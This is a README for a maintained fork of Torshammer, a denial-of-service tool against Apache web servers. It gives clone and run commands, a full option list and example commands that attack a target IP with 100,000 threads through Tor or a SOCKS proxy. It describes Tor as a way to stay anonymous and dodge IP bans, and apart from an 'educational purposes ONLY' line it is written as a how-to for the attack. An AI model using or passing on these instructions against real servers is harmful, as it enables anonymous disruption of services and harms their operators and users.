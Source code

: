 # Use for educational purposes ONLY

## This is a maintained fork of Torshammer
- It works with the new TOR port 9050.
- Python 3.x version compatible.
  - If you need python 2.x version, please use [Karlheinzniebuhr's torshammer](https://github.com/Karlheinzniebuhr/torshammer)


## TORS HAMMER HOW TO

### Installation

Clone source code

```console
git clone https://github.com/kucingbasah737/kb737-torshammer
cd kb737-torshammer
```
### Usage

```console
python torshammer.py
```

or:
```console
python3 torshamer.py
```

```
./torshammer.py -t <target> [-r <threads>] [-p <port>] [-T] [-S <sockshost> -P <socksport>] [-i <seconds>] [-s <seconds>] [-h]
 -t|--target <Hostname|IP>
 -r|--threads <Number of threads> Defaults to 256
 -p|--port <Web Server Port> Defaults to 80
 -T|--tor Enable anonymising through tor on 127.0.0.1:9050
 -S|--sockshost <SOCKS host addrees> eg: 127.0.0.1
 -P|--socksport <SOCSS host port> Defaults to 1080
 -i|--max-delay <max seconds beetwen packets in float> Defaults to 3.0
 -s|--pre-sleep-on-thread-start <max seconds beetween starting threads> Default to none
 -h|--help Shows this help
```
You should now see a terminal-based GUI interface.
**Tor'shammer interface has it's own basic help menu that tells you how to run the script according to your target.**

Example usage:
```console
python torshammer.py -t 192.168.1.100 -r 100000 -T
```

```console
python torshammer.py -t 192.168.1.100 -r 100000 -S 127.0.0.1 -P 8080
```

```console
python torshammer.py -t 192.168.1.100 -r 100000 -i 3.0 -s 1.0
```

- The larger the thread count, the more efficient and effective the attack!!
- -T adds the Tor function which provides security, as well, as providing a new identity in case the site is
programmed to ban IP addresses which leave an open connection for "x" amount of time. Tor'shammer's method of
combining this is clever and effective, making it the powerful tool it is. However, Tor'shammer is only effective to
apache servers which do not run nginx.

